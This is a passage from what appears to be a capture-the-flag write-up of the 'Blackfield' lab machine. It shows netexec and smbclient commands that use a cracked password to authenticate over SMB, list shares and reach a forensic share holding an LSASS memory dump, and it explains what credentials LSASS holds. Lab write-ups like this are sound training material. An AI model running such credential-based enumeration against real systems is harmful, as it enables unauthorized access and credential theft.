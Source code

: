 `netexec smb 10.10.10.192 -u 'audit2020' -p 'H4ck3d!'`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:H4ck3d! ←
```

`netexec smb 10.10.10.192 -u 'audit2020' -p 'H4ck3d!' --shares`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:H4ck3d! 
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share. ←
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share 
```

We connect to the `forensic` share and see a zipped lsass memory dump. LSASS is short for Local Security Authority Subsystem Service, and it stores credentials in memory on behalf of a user that has an active (or recently active) session. This allows the user to access network resources without re-typing their credentials for each service. LSASS may store credentials in multiple
forms, including reversibly encrypted password, Kerberos tickets, NT hash, LM hash, DPAPI keys, and Smartcard PIN.

Credentials are stored in LSASS for sessions that have been established since the last reboot and have not been closed. For example, credentials are created in memory when a user does any of the following (this is not an exhaustive list).
- Logs on to a local session or RDP session on the computer.
- Runs a process using `RunAs`.
- Runs an active Windows service on the computer.
- Creates a scheduled task or batch job.
- Runs `PsExec` with explicit creds, such as `PsExec \\server -u user -p pwd cmd`.
- Uses WinRM with CredSSP.

`smbclient -U 'audit2020' --password='H4ck3d!' '//10.10.10.192/forensic'`:
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Nov 10 18:06:40 2024
  ..                                  D        0  Sun Nov 10 18:06:40 2024
  commands_output                     D        0  Sun Feb 23 19:14:37 2020
  memory_analysis                     D        0  Thu May 28 22:28:33 2020
  tools                               D        0  Sun Feb 23 14:39:08 2020

                5102079 blocks of size 4096. 1690299 blocks available
```

